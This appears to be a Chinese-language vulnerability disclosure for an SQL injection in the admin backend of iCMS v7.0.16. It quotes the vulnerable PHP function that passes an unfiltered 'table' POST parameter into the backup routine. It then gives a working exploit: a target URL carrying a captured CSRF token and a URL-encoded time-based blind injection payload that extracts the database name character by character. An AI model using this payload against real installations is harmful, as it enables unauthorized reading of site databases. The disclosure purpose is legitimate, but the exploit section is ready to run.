


# iCMS内容管理系统v7.0.16后台存在SQL注入漏洞

## 分析

在`app/database/database.admincp.php`中第59行的函数,其接收参数table但未对其进行过滤

```php
public function do_batch() {
		$tableA = (array) $_POST['table'];
		$tableA OR iUI::alert("请选择要操作的表");
		$tables = implode(',', $tableA);
		$batch = $_POST['batch'];
		switch ($batch) {
		case 'backup':
			$this->do_savebackup();
			break;
		case 'optimize':
			$this->optimize($tables);
			break;
		case 'repair':
			$this->repair($tables);
			break;
		}
}
```

将其传入do_savebackup函数当中，之后又调用bakupdata函数



其未对参数进行过滤，这里我测试了很多方式为成功，最终采用时间盲注最终成功，以下是利用exp，需要先后台登录在备份处抓包获取token(这个token几乎永久有效)




## exp

```
http://url/admincp.php?app=database&do=batch&frame=iPHP&CSRF_TOKEN=3cfb4dca8dpX4182alTYB-lseCEnHJ6UF-Qb4-AE3omRfhnysxZzolf49RhqX2q--m6HAq9BDawCgIxxVozSy390rhRevbWxjHZ34J0
```

post数据

```
table%5B%5D=dux_article%20WHERE%205830%3D5830%20AND%20%28SELECT%204647%20FROM%20%28SELECT%28SLEEP%282-%28IF%28ORD%28MID%28%28IFNULL%28CAST%28DATABASE%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C5%2C1%29%29%3E96%2C0%2C2%29%29%29%29%29sYJr%29--%20sTre&sizelimit=2048&batch=backup
```

